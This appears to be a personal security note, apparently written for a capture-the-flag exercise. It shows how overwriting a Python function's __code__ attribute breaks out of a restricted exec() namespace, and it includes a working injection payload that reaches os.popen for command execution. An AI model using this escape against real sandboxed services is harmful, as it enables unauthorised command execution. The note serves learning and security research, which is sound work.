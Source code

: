 *2022-05-15*
#guide 

> [!Abstract]
>The `__code__` attribute of a Python function can be overwritten, allowing us to possibly break out of a constrained namespace and use an elevated one.

---

We can view all the attributes of an object using `print(func.__dir__())`. We'll be able to see a `__code__` attribute.

```python
Python 3.10.4 (main, Mar 23 2022, 23:05:40) [GCC 11.2.0] on linux  
Type "help", "copyright", "credits" or "license" for more information.  
>>> print(print.__dir__())  
['__repr__', '__hash__', '__call__', '__getattribute__', '__lt__', '__le__', '__eq__', '__ne__', '__gt__', '__ge__', '__reduce__', '__module__', '__doc__', '__name__', '__qualname__', '__self__', '__text_signature__', '__new__',  
'__str__', '__setattr__', '__delattr__', '__init__', '__reduce_ex__', '__subclasshook__', '__init_subclass__', '__format__', '__sizeof__', '__dir__', '__class__']
```

We can overwrite this attribute with the code of another function or a lambda. Lambdas are generally easier when working with injections.

## Example
```python
def func1():
	print(1)

func1()

func1.__code__ = (lambda: print(2)).__code__

func1()
```

```
1
2
```

## Namespace Escalation
We can use this property to escalate to a namespace with more functions available. Consider the following `exec()` injection with a limited namespace.

> [!Note]
> Notice that the globals available to use in the `exec()` function have been limited. In this case, only `print()`` can be called.

#### Failed Exploit
```python
import os 

def new_print(x):
	print(f"new print {x}")

builtins = {
	"print": new_print
}  

injection = "print(os.popen('whoami').read())"

exec(f"{injection}", builtins)
```

```shell
Traceback (most recent call last):
  File "/home/james/htb/amidst-us/namespace.py", line 13, in <module>
    exec(f"{injection}", builtins)
  File "<string>", line 1, in <module>
NameError: name 'os' is not defined
```

We get the error that the `os` module is not defined, which make sense since it is not included in the restricted namespace of the `exec`.

Now, lets try the same code with a different injection. This time we're going to overwrite the `__code__` attribute of `print` with that of a custom lambda. We'll then run `print()`.

#### Working Exploit
```python
import os 

def new_print(x):
	print(f"new print {x}")

builtins = {
	"print": new_print
}  

injection = "print.__code__ = (lambda: print(os.popen('echo EXPLOITED!').read())).__code__; print()"

exec(f"{injection}", builtins)
```

```
EXPLOITED!
```

> [!Success]
> The `print` function's code is being overwritten with that of our own lambda, but instead of using the constrained namespace of the `exec`, it's using the namespace of `new_print` which has access to the `os` module and all the default Python built-ins. 

With this change, `print(os.popen('echo EXPLOITED!').read())` is running as if it's not in the constrained namespace.

---

# References
* https://stackoverflow.com/questions/6886493/get-all-object-attributes-in-python

---